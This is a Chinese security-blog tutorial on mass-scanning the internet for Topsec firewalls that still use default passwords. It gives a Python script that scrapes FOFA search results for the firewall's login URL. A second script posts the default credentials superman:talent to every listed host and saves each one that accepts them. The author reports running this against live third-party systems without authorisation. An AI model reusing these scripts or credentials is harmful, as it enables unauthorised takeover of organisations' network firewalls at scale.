 

# 教你如何快速拿下全网弱口令 - 先知社区

教你如何快速拿下全网弱口令

- - -

**前言：在一次测试中，偶遇了天融信的防火墙，弱口令测试未果，并且天融信的防火墙一般错误五次后会会锁定登录，所以也不能爆破弱口令，那么现实中这种系统还是很多的，本篇文章介绍一下利用 fofa 爬取全网相同系统服务器，然后批量检测默认用户名密码的脚本的编写，本篇就以天融信的防火墙弱口令为例。**

我们的思路是通过 fofa 搜索目标系统服务器独有特征，例如系统的一些独有页面，然后脚本爬取我们需要的链接收集起来，再利用脚本批量检测默认用户名密码即可。

（有了这个想法后百度了一下，已经有师傅写过 fofa 爬链接的脚本了，那就不造轮子了，拿来改一下吧，精简为主，代码也比较简单，师傅已经写的很好了，原文链接：[https://www.cnblogs.com/Cl0ud/p/12384457.html）](https://www.cnblogs.com/Cl0ud/p/12384457.html%EF%BC%89)

## 前期准备

一：登录会员 fofa 账号，不是 fofa 会员的话只能查看五页内容，想要爬取所有符合特征的链接，就需要会员了，普通会员就可以了，这个就需要自行解决啦！登录之后我们获取当前登录账户的 cookie 值以做后面爬取链接时使用。

[![](assets/1698897555-0714fd32292ca3a071faa631bdfe4889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104307-82d40616-8213-1.png)

二：找到目标防火墙的特征 url："/cgi/maincgi.cgi"，fofa 搜索一些就可以找到相同的目标系统了，此时链接可以删除 q 参数，只要 qbase64 参数也是一样的，[https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki，我们需要的是qbase64参数：Ii9jZ2kvbWFpbmNnaS5jZ2ki](https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki%EF%BC%8C%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E7%9A%84%E6%98%AFqbase64%E5%8F%82%E6%95%B0%EF%BC%9AIi9jZ2kvbWFpbmNnaS5jZ2ki)

[![](assets/1698897555-a52dd747cbc77c82181b838b7823dcb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104321-8b03a620-8213-1.png)

三：此时所有的链接都是天融信防火墙的后台登录页面了，可以看到有一个登录框，输入账号密码登录，我们输入默认的账号：密码→superman:talent，然后点击登录并抓包

[![](assets/1698897555-9fee655a13ec61588d830e2fa7f3a0a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104332-91695a96-8213-1.png)

[![](assets/1698897555-fd0eff6bf8201b7a10d1c42eb51c7443.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104337-94af45b2-8213-1.png)

**前期工作已经准备好了，接下来就需要写脚本爬取需要测试的链接并且批量验证了，为了方便后期的更改，爬取和检测弱口令分成两个脚本。**

## 脚本部分（分为链接爬取和批量检测）

脚本所需环境为 python2

### **fofa 链接爬取脚本**

编码的问题真的很烦，各种报错，脚本输出都为英文，并且我们直接将需要用到的 cookie，和 qbase 参数直接编辑到代码中，各位用的时候自行代码修改就可以了~

```plain
import requests
from lxml import etree
import re
import time

cookie = "1"
qbase64 = "Ii9jZ2kvbWFpbmNnaS5jZ2ki"
def spider():
    header = {
        "Connection": "keep-alive",
        "Cookie": "_fofapro_ars_session=" + cookie,
    }
    print("spider website is :https://fofa.so/result?qbase64=" + qbase64)
    html = requests.get(url="https://fofa.so/result?qbase64=" + qbase64, headers=header).text
    pagenum = re.findall('>(\d*)</a> <a class="next_page" rel="next"', html)
    print("have page: " + pagenum[0])
    stop_page = raw_input("please input stop page: \n")
    doc = open("url.txt", "a+")
    for i in range(1, int(pagenum[0])):
        print("Now write " + str(i) + " page")
        pageurl = requests.get('https://fofa.so/result?page=' + str(i) + '&qbase64=' + qbase64, headers=header)
        tree = etree.HTML(pageurl.text)
        urllist = tree.xpath('/html/body/div[@id="result"]/div[@class="main-result clearfix padTop90"]/div[@class="result-right-list"]/div[@class="result-right-list-view"]/div[@class="right-list-view-item clearfix"]/div[@class="fl box-sizing"]/div[@class="re-domain"]/a[@target="_blank"]/@href')
        for j in urllist:
            doc.write(j + "\n")
        if i == int(stop_page):
            break
        time.sleep(10)
    doc.close()
    print("OK,Spider is End .")

def main():
    spider()

if __name__ == '__main__':
    main()
```

在前期准备中我们已经获取了 fofa 登录用户的 cookie，以及我们搜索的 qbase64 参数，修改上面代码中的 cookie 和 qbase64 的值，然后 python 脚本名.py，输入要停止的页码后，等待运行结束，结束后同目录下的 url.txt 文件中就是所收集的目标系统 url。运行截图如下。

[![](assets/1698897555-d788f330037710bf516a0a23a103dcff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104347-9a57ba26-8213-1.png)

### **批量检测脚本**

```plain
import requests
import time
payload = {
    "username":"superman",
    "passwd":"talent",
    "loginSubmitIpt":''
}
'''proxy='127.0.0.1:1080'
proxies={
    'http':'http://' + proxy,
    'https':'https://' + proxy
}'''
header={'Connection': 'close'}
f = open("url.txt", "r")
r = open("url_x.txt","w")
lines = f.readlines()
i=0
x=0
for line in lines:
    try:
        response = requests.post(line+"/cgi/maincgi.cgi?Url=Index",data = payload,headers = header,timeout=5,verify=False)
    except:
        continue
    else:
        i=i+1
        print(str(i))
        if "maincgi.cgi?Url=Main" in (response.text.replace(u'\xa9', u'')):
            r.write(line + "\n")
            x=x+1
            print(str(i)+"is being detected")
            print("A vulnerability link has been detected" + str(x))
f.close()
r.close()
```

如果不用 try 的话，有一个报错，如下图，百度了一下，网上的方法都没有解决，经过测试，部分链接会报异常，部分链接是没问题的，所以我们这里用 try 来忽略这些异常的请求，如果有师傅有解决方法的话，欢迎提出建议哦~

[![](assets/1698897555-1481713fd94b43f480a612c246c26d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104418-ad137592-8213-1.png)

脚本运行后，会读取 url.txt 的链接进行逐条检测默认口令，并输出正在检测第几条，在检测到弱口令系统后会输出已经检测出的数量。

[![](assets/1698897555-f60bac4593f8e80ffa6065e1f9e954f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104424-b0e0f334-8213-1.png)

检测出的弱口令系统链接也会输出出来，并且会将存在弱口令的系统链接保存在 url\_x.txt 中，如下图：

[![](assets/1698897555-9cdf67c31f8f4ef6570730bcb798f3c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104433-b5ecdc94-8213-1.png)

脚本在经历了亿小会儿的运行之后，结果也出来了，那么基本全网的天融信的默认口令系统也都在这里了，如下图：

[![](assets/1698897555-263991f29f914a602052c248e7812e96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104439-b9a8bc2c-8213-1.png)

**思路呢就是这样的，批量爬取，批量检测，更多的利用方式我就不说啦，各位按照需求自行修改代码就可以啦，缺点还是有不少的，期待各位师傅们提出意见和建议~**
